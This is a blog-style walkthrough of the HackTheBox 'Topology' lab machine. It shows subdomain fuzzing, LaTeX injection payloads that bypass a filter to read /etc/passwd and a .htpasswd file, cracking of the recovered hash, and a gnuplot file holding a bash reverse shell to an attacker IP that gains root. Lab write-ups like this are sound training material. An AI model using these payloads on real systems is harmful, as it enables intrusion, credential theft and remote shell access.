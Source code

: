 ```yaml
---
title: "HackTheBox | Topology"
layout: post
date: 2023-11-04 20:00
tag: 
- HackTheBox
- Pentesting
- Topology
- Linux
- Easy
- Gnuplot
- LaTeX
image: https://www.hackthebox.com/storage/avatars/cbfa26b4a4044677e93779a44bbd458f.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

An easy HackTheBox machine that envolves a virtual host which is vulnerable to LaTeX injection vulnerability.

---

# Nmap

```bash
nmap -A -T4 10.10.11.217
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 12:55 +01
Nmap scan report for 10.10.11.217
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two ports open, let's check the web page at port 80 :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031125816.png>)

I added the `topology.htb` to my */etc/hosts* and started enumerating for hidden directories or subdomains, Gobuster didn't output anything useful, but ffuf did :

# Fuff

```bash
ffuf -u http://topology.htb -c -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt -H "Host: FUZZ.topology.htb" -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 194ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 1418ms]
:: Progress: [2280/2280] :: Job [1/1] :: 23 req/sec :: Duration: [0:00:54] :: Errors: 0 ::
```

The `dev.topology.htb` requires authorization :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151647.png>)

I went back to my web page and found there is a project about LaTeX :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143758.png>)

When I clicked on it, it redirects me to another subdomain `latex.topology.htb` :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143827.png>)

There I can use the equation generator to create a PNG file :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031143944.png>)

So I thought about some sort of LaTeX injection which I found that it does exists :

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

I tired the bellow payload but I see there is a filtering :

```bash
\input{/etc/passwd}
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144014.png>)

The payload bellow actually worked so we bypassed the first part of filtering now I should customize it to bypass there filter :

```bash
\lstinputlisting{/etc/passwd}
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144205.png>)

```bash
$\lstinputlisting{/etc/passwd}$
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144332.png>)

And yes by adding $ I was able to bypass it, now I can read files on the server :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031144408.png>)

I remembered the subdomain found before `dev.topology.htb` and said let's try if I can read the .htpasswd file which is used to store usernames and password for basic authentication of HTTP users :

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031145635.png>)

And that was the case, we found credentials of `vdaisley` user, I needed just to crack the encrypted password using John :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031145614.png>)

`vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:05 DONE (2023-10-31 15:10) 0.1964g/s 195621p/s 195621c/s 195621C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

`vdaisley : calculus20`

Now I can access the `dev.topology.htb`, there was nothing useful so I tried if there is password reusing to login via SSH :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151611.png>)

# User flag

Fortunately that was the case and I am in as `vdaisley` user :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031151722.png>)

# PE

While trying to privesc, I checked running processes using pspy tool and found there is a process running every minute by root which looks for files with .plt extension in */opt/gnuplot* and executes them.

>Gnuplot is a command-line and GUI program that can generate two and three-dimensional plots of functions, data, and data fits.

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154344.png>)

I have write permissions on the */opt/gnuplot* directory, so I thought about creating a malicious plt file which will be executed by root and privesc :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154427.png>)

 https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation

```bash
system "bash -c 'bash -i >& /dev/tcp/10.10.14.141/9999 0>&1'"
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154916.png>)

I created a file named 'exploit.plt' and waited till it's executed and BOOM I got a root shell :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231031154951.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>